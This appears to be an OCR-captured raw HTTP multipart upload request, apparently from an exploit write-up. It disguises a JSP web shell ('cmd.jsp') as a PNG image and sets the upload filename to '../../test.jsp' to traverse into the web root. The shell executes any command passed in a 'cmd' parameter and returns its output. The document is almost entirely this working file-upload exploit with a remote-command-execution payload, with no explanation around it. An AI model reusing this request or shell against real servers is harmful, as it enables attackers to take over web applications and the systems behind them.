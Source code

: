```txt
Cookie: JSESSIONID=F79296BCE69FF08B906E976652201F03
Upgrade-Insecure-Requests: 1
Priority: u=0, i

-----------------------------385736630213016304902959025936
Content-Disposition: form-data; name="Upload"; filename="cat.png"
Content-Type: image/png

PNG

   
IHDR  h  h   M;ç   BPLTEg^«zWQ¼ÿÿÿtn¶ïîîme`YwpNIÅ¡c@>Ñ«¤9!Ûµ®O30°wv\`ÝÓÑ¬âÖ"  
<%@ page import="java.util.*,java.io.*"%>
<%
//
// JSP_KIT
//
// cmd.jsp = Command Execution (unix)
//
// by: Unknown
// modified: 27/06/2003
//
%>
<HTML><BODY>
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
<%
if (request.getParameter("cmd") != null) {
        out.println("Command: " + request.getParameter("cmd") + "<BR>");
        Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
        OutputStream os = p.getOutputStream();
        InputStream in = p.getInputStream();
        DataInputStream dis = new DataInputStream(in);
        String disr = dis.readLine();
        while ( disr != null ) {
                out.println(disr); 
                disr = dis.readLine(); 
                }
        }
%>
</pre>
</BODY></HTML>
-----------------------------385736630213016304902959025936
Content-Disposition: form-data; name="top.UploadFileName"

../../test.jsp
-----------------------------385736630213016304902959025936--


```
